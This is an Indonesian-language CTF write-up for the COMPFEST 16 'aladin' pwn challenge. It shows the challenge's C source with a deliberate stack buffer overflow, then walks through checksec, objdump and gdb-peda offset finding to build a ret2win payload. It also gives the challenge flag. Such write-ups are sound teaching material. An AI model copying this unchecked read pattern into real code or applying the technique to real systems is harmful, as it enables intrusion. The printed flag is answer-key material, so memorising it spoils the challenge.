 # [500 pts] aladin
### Category: Binary Exploitation

**Deskripsi:**
>terkadang sebuah perjuangan tidak hanya memerlukan usaha, tapi memerlukan bantuan dari dunia gaib, hehehe...
>
>Author: nabilmuafa
>
>nc challenges.ctf.compfest.id 20006

**chall.c:**
```c
#include <stdio.h>
#include <stdlib.h>

/* gcc -Wl,-z,relro,-z,now -no-pie -fno-stack-protector chall.c -o chall */

void win(int mantra)
{
    puts("wow! mantra kamu benar! sebagai hadiahnya, jin akan memberikan kamu suatu mantra lain yang dapat kamu gunakan untuk menang ctf compfest (semoga beneran).");
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
        printf("File flag.txt does not exist! >:(");
        return 69;
    }
    char flag[0x100];
    fgets(flag, 0x100, f);
    puts(flag);
}

void vuln()
{
    char mantra[32];

    puts("kamu menemukan sebuah gua... di dalam gua tersebut ada jin yang bisa memberi kamu akses jadi pemenang ctf compfest 16...");
    puts("tapi syaratnya kamu harus bisa menyebutkan mantra sakti yang diinginkan jin tersebut...\n");
    puts("jin: 'tenang saja... soal ini tidak toksik seperti soal tahun lalu... tapi kamu harus menyebutkan mantra sakti...'\n");
    printf("sebutkan mantra sakti tersebut: ");

    read(0, mantra, 0x200);

    puts("duar! jin tersebut memproses mantra sakti kamu... apakah kamu akan jadi pemenang ctf compfest 16...?\n");
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    vuln();
    puts("yah, nampaknya mantra kamu masih salah...");
    return 0;
}
```

**Binary File:** [chall](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/Hacker%20Class/aladin/chall)

### Solusi:

Diberikan source code dan binary dari source code yang sudah di compile, awalnya saya cek keamanan dari file binary tersebut:
```
checksec chall
```

**Output:**
```
Arch:     amd64-64-little  
RELRO:    Full RELRO  
Stack:    No canary found  
NX:       NX enabled  
PIE:      No PIE (0x400000)   
```

 Tidak ada stack canary yang melindungi stack, sehingga mungkin untuk dilakukan serangan buffer overflow, untuk lebih membuktikan mari jalankan program:
 ```
 chmod +x chall  
 ./chall
 ```

**Output:**
```
kamu menemukan sebuah gua... di dalam gua tersebut ada jin yang bisa memberi kamu akses jadi pemenang ctf compfest 16...
tapi syaratnya kamu harus bisa menyebutkan mantra sakti yang diinginkan jin tersebut...
 
jin: 'tenang saja... soal ini tidak toksik seperti soal tahun lalu... tapi kamu harus menyebutkan mantra sakti...'
 
sebutkan mantra sakti tersebut:
```

Terlihat program tersebut meminta input dari pengguna dengan ekspektasi diberikan input string, dengan mencoba menginput string yang sangat panjang (misal 100 karakter), 
```
zsh: segmentation fault  ./chall
```

Terjadi segmentation fault sehingga terbukti kita bisa melakukan exploit pada buffer. Terlihat di source code bahwa flag akan di print pada fungsi win().
Maka kita akan melakukan exploit dengan menginput string berupa format:
> (padding offset) + (address fungsi win())

Gunakan _objdump_ untuk mencari address fungsi win():
```
objdump -d chall | grep win
```

**Output:**
```
00000000004011d6 <win>:  
401213:       75 13                   jne    401228 <win+0x52>  
401226:       eb 27                   jmp    40124f <win+0x79>
```

Didapatkan address yaitu 0x4011d6, kemudian cari offset menggunakan gdb-peda dengan memakai command pattern. Cara menginstall gdb-peda: https://n0a110w.github.io/notes/security-stuff/peda.html 

Pattern akan dimasukkan kedalam file bernama "payload" dan akan di-input kedalam program. Lakukan dengan command: 
```
gdb-peda chall  
pattern create 100 payload  
run < payload
```

Yang perlu kita lihat yaitu pada bagian registers,

**Output:**
```assembly
 RAX  0x66
 RBX  0x7fffffffdf18 —▸ 0x7fffffffe286 ◂— '/home/kali/current/chall'
 RCX  0x7ffff7ec64e0 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0
 RDI  0x7ffff7f9f710 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x7ffff7f9e643 (_IO_2_1_stdout_+131) ◂— 0xf9f710000000000a /* '\n' */
 R8   0
 R9   0x7ffff7fcfb30 (_dl_fini) ◂— push rbp
 R10  0x7fffffffdb30 ◂— 0x20 /* ' ' */
 R11  0x202
 R12  0
 R13  0x7fffffffdf28 —▸ 0x7fffffffe29f ◂— 0x5245545f5353454c ('LESS_TER')
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2c0 ◂— 0
 R15  0
 RBP  0x6141414541412941 ('A)AAEAAa')
 RSP  0x7fffffffddf8 ◂— 0x4141464141304141 ('AA0AAFAA')
 RIP  0x4012bb (vuln+106) ◂— ret 
```

Terjadi segmentation fault seperti sebelumnya, hal ini terjadi karena return address yang akan dijalankan RIP ter-overwrite oleh input yang kita masukkan.

Karena menggunakan RIP, maka program pasti menggunakan arsitektur 64-bit. Pada arsitektur 64-bit return address yang ter-overwrite akan berada di RSP,
sehingga untuk mencari offset kita melihat string yang masuk ke RSP dan kita gunakan command pattern offst dari gdb-peda:
```
pattern offset AA0AAFAA
```

**Output:**
```
AA0AAFAA found at offset: 40
```

Maka didapatkan offset sebanyak 40 karakter, yang artinya kita harus meng-input 40 karakter sebelum bisa mulai meng-overwrite return address fungsi vuln().
Untuk itu, kita gunakan library pwntools untuk membuat solver script ini. 

Pada solver script kita akan membuat payload yang berupa 40 karakter 'A' + p64(0x4011d6). Fungsi p64() adalah fungsi builtin dari pwntools yang akan menyesuaikan format address menjadi little endian.

Lebih lanjut mengenai Endiannes: https://www.geeksforgeeks.org/little-and-big-endian-mystery/
> Note: gunakan fungsi p32() jika program menggunakan arsitektur 32-bit

Solver script: [aladin.py](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/Hacker%20Class/aladin/aladin.py)

> Flag: **COMPFEST16{still_easy_ret2win_right?_a4e27d3beb}**

Problem ini merupakan binary exploitation tipe ret2win, untuk lebih lanjut: https://ir0nstone.gitbook.io/notes/types/stack/ret2win

